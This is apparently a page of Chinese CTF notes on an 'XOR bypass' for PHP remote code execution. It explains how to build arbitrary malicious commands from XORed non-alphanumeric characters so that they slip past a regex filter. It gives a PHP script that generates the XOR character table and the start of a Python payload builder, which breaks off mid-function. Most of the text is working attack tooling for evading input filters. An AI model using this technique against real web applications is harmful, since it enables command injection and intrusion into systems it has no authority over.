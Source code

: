 ##### 异或绕过

通过不可见字符之间的异或运算构造出任意恶意命令，将两个脚本按照规定命名放到同一个目录下，每次使用时需要根据题目代码更换php脚本中的正则部分，更改好运行python代码，根据提示构造即可

xor.php

```
<?php



$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[a-z0-9A-Z]/i'; 
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }

        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)^urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

xor.py

```
import requests
import urllib
from sys import *
import os

def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
```